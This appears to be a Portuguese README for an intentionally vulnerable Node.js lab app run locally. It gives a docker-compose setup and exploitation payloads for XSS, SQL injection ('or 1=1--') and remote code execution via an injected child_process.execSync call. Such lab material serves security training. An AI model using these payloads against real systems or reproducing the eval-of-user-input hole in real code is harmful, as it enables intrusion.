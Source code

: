 # Vulnerable Node Application
- [Vulnerable Node Application](#vulnerable-node-application)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)

## Execução
Descompactação e execução dos containers por linha de comando.
```
$ unzip VulnNode-Nome.zip
$ cd VulnNode-Nome
$ docker-compose up
```
Exemplo após a inicialização dos containers.
![Docker Compose em execução](https://res.cloudinary.com/dtr6hzxnx/image/upload/v1681241692/Via/2023-04-11_16.24.37_kmoglj.gif)


URL para acesso à aplicação.
```
http://localhost:3000
``````
![Vulnerable Node Application](images/VulnerableNodeApplication.png)

## Vulnerabilidades 
### XSS

Payload de exploração
```
/?userInput=<script>alert(1)</script>
```
Evidência
![Cross-Site Script](images/xss.png)

### SQL Injection

Payload de exploração
```
/users?username='+or+1=1--&access-token=' 
```

Evidência em uso normal do endpoint.
![SQL Injection](images/sqli.png) 


### RCE
Payload de exploração
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ping+-c+4+localhost').toString();%20}
``` 

Evidência
![Remote Code Execution](images/rce.png)